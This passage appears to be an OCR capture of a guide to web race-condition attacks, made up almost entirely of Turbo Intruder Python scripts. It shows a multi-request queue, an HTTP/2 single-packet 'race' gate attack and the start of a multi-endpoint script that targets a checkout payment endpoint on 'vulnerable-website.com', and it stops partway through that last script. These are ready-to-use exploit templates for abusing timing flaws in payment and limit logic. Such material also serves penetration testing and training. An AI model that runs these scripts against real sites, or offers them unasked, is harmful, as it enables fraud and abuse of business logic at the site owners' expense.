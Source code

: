            # Queue multiple identical requests
           for i in range(20):
               engine.queue(target.req, None)
       
       def handleResponse(req, interesting):
           # Analyze responses
           if interesting:
               table.add(req)
       ```
    
    2. **HTTP/2 single-packet attack**:
       ```python
       def queueRequests(target, wordlists):
           engine = RequestEngine(
               endpoint=target.endpoint,
               concurrentConnections=1,  # Must be 1 for single-packet
               engine=Engine.BURP2  # Use Burp2 engine for HTTP/2
           )
           
           # Queue requests in a gate for synchronized delivery
           for i in range(20):
               engine.queue(target.req, gate='race')
           
           # Open gate to send all requests in a single packet
           engine.openGate('race')
       
       def handleResponse(req, interesting):
           table.add(req)
       ```
    
    3. **Multi-endpoint race condition script**:
       ```python
       def queueRequests(target, wordlists):
           engine = RequestEngine(
               endpoint=target.endpoint,
               concurrentConnections=1,
               engine=Engine.BURP2
           )
           
           # First request (e.g., payment submission)
           req1 = '''POST /checkout/payment HTTP/2
       Host: vulnerable-website.com
       Content-Type: application/json
       Cookie: session=valid_session
       
       {"payment_method":"credit","amount":"10.00"}'''
           